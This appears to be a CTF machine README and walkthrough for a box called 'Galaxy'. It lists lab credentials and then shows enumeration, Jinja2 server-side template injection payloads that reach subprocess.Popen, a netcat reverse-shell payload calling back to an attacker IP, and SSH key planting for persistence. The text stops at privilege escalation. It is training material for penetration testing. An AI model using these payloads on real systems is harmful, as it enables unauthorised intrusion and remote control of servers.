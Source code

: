 # [Galaxy]

## Introduction

This machine inspired from this bug bounty report: https://hackerone.com/reports/125980<br>
Galaxy is medium level machine with SSTI vulnerability and CVE-2019-14287 for root part. I suggest medium because getting shell is not straight forward it requires enumeration to get rce via SSTI, however players can do that by googling about SSTI. Player will learn about Popen subclassess and running multiple commands.
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | Ab401c |
| root  | 1roots |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is restricted page vulnerable to SSTI
3) After enumerating subclasses in SSTI players need to find number of Popen subclass
4) For root privilege escalation I set CVE-2019-14287 it is from real world and I believe it suits to box story
5) There is other user besides `web` and `root` (john) and this is dummy user which has no password. I set them for box story and player needs to critical thinking to get shell after finding out CVE-2019-14287

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find some directories one of them /developers worth to pay attention<br>

![image](https://github.com/user-attachments/assets/0f004ee2-4c74-499e-9abd-0e563c7fc92c)

Searching other subdirectories we didn't find anything usefull<br>

Let's try file inclusion with `http://galaxy.htb/developers/../../../etc/passwd` payload<br>
![image](https://github.com/user-attachments/assets/41a65f0e-d568-4238-9040-fcdf0605a18f)
<br>
There is no directory traversal or file inclusion vulnerability, but interesting thing whatever we write to url it get reflected in web page:<br>
![image](https://github.com/user-attachments/assets/67c68efa-f06b-48af-bf00-cbc3bbbf3b8e)<br>

After injecting:
````
http://galaxy.htb/developers{{7+7}}
````
We can confirm there is SSTI vulnerability
![image](https://github.com/user-attachments/assets/a1acf1be-c195-44e9-9ce4-dae252c2c3cb)

We need to know what template used, for that we use this formula:
![image](https://github.com/user-attachments/assets/14e9e059-81f0-45e6-b9bc-596ef8774d92)
<br>
Payload: `{{7*'7'}}`<br>
![image](https://github.com/user-attachments/assets/04e4f93b-c880-48a3-9114-ecdbbb3483cc)

# Foothold

## Enumeration

After searching from [blogs](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and [PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md?ref=sec.stealthcopter.com) we need to find `Popen` class for rce<br>

1) First we need to find all classes<br>
Payload: `{{''.__class__.mro()[1].__subclasses__()}}`
![image](https://github.com/user-attachments/assets/13d038bf-dbeb-44c0-8ff9-b575a2854b30)
<br>
We have hundreds of classes including `Popen` which we will use for command execution

2) We need to find it's number for that we copy all of them paste it to `vi` then hit `ESC` and type: `:%s />/\r/g` and finally use `set number` command to sort them with numbers
![image](https://github.com/user-attachments/assets/bab7a081-9157-44d8-8411-e5240b4b7da1)

After using `set number` command inside `vi` we will search `Popen`:<br>
`/Popen`
![image](https://github.com/user-attachments/assets/01372a62-a9e4-4a53-908f-6b521672c66a)
We can see it is in number 259, but in programming language number starts from `0` so it should be 258.
<br>
<br>
To confirm we use this payload: `{{''.__class__.mro()[1].__subclasses__()[258]}}`
<br>
![image](https://github.com/user-attachments/assets/221e32ef-e141-406f-a02e-fd4a06b653de)

Next thing we need to use that process to gain command execution.
Payload: `{{''.__class__.mro()[1].__subclasses__()[258]('id')}}`
![image](https://github.com/user-attachments/assets/dfbcb7af-07d5-4905-bf43-61ad0b870f7f)
Instead we get this error, let's try understand what is happening
<br>
We can use python in terminal to simulate similar situation:
![image](https://github.com/user-attachments/assets/b182b2fe-ae1c-4523-8f70-6fbb7c44a9e8)
In terminal we can execute command, but we still get `<Popen: returncode: None args: 'id'>` message and it freezes<br>
Problem is `Popen` needs `.communicate()` and `stdout=-1` commands to get proper output. Read [this](https://forums.linuxmint.com/viewtopic.php?t=356930) documentation
for more
<br>
Final payload:
````
{{''.__class__.mro()[1].__subclasses__()[258]('id',stdout=-1).communicate()}}
````
![image](https://github.com/user-attachments/assets/83cc0bef-8161-458e-9b05-81a2361238cb)

Now we got response!

## Important
subprocess.Popen and shell works differently. In Popen class you can't just type multiple commands like: "uname -a" or "cat /etc/passwd"
<br>
You need `shell=True` or you need to type independently like: `(['cat','/etc/passwd'])`
![image](https://github.com/user-attachments/assets/8b433d41-c7c7-4525-8b15-eb4aae4bad48)

Lastly to get shell we will use this payload:
````
{{''.__class__.mro()[1].__subclasses__()[258](['nc','192.168.X.X','9001','-e','/bin/bash'],stdout=-1).communicate()}}
````
Don't forget to set netcat listener!

![image](https://github.com/user-attachments/assets/dec24d30-6acd-4314-b8fb-8aa18547f04d)

We got shell. Let's use ssh to get better shell<br>
We copy our public key to /home/web/.ssh/authorized_keys:
```
echo "your id_rsa.pub key" > /home/web/.ssh/authorized_keys
```
If you don't have generate using: `ssh-keygen -t rsa`<br>
After that we can login using our own private key located in /home/your_username/.ssh:
````
ssh -i id_rsa web@galaxy.htb
````
![image](https://github.com/user-attachments/assets/78d55493-9b75-416b-a3e8-91a59efb9a07)


# Privilege Escalation
There is README.txt file let's read it!
````
Dear developers!

We have ongoing "star map" project! We need to finish it as far as possible. User john has codes in his home directory, but I can not disclose password of user john.
However you are allowed to copy those codes!
Available codes:
star-map.js
star.html
stars.js
````




